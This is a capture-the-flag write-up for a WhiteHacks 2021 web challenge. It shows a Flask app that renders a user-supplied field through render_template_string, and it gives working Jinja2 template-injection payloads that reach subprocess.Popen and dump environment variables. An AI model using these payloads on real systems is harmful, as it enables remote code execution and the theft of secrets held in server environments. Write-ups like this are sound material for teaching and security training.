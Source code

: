 # WAF Bypass

### burden_bear

**Category: Web**

> Can you get flag from the environment?
>
> [chals.whitehacks.ctf.sg:50401](http://chals.whitehacks.ctf.sg:50401/)

At first, there were no clues on what the challenge was about, though the HTTP headers revealed that the server was `Werkzeug/1.0.1 Python/3.7.10` which is the signature for Flask. After a period without solves, partial source code was released:

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        payload = request.form['quote']
    else:
        payload = "No WAF is a Crime"
    
    # WAF REDACTED
            
    template = '''
    %s''' % payload
    quote = render_template_string(template)
    
    return quote
```

Now, it is clear that the app is vulnerable to [flask template injection](https://akshukatkar.medium.com/rce-with-flask-jinja-template-injection-ea5d0201b870) through the `quote` HTTP parameter. Usually, templates are used to insert some data into the HTML response. They can also be used to perform operations on the data, like concatenation. For example, sending `{{ 1-1 }}` returns `0`. This requires code within the template to be executed. Thus, we can use this to leak the flag through remote code execution. 

However, there is some kind of blacklist or firewall, as hinted by the title WAF. For example, attempting to read `/proc/self/environ` returns `illegal`. In general, to get past most python jails/blacklists, we try to obtain a list of subclasses of the base class `<type 'object'>`, ie all classes currently loaded in the system. 

```python
{{ "".__class__.__base__.__subclasses__() }}
```

This list a bunch of classes, but we're most interested in the [`<class 'subprocess.Popen'>` class]([subprocess — Subprocess management — Python 3.9.2 documentation](https://docs.python.org/3/library/subprocess.html#subprocess.Popen)) which allows us to execute shell commands. We find that it's at index 425 in the list. Because the challenge description references an 'environment', we look at the environment variables:

```python
{{ "".__class__.__base__.__subclasses__()[425](["env"], stdout=-1).communicate() }}
```

Flag: `WH2021{simple_ssti_bypass_is_so_simple_that_you_dont_need_a_brain_hahahahaha_SG-BTBLP}`

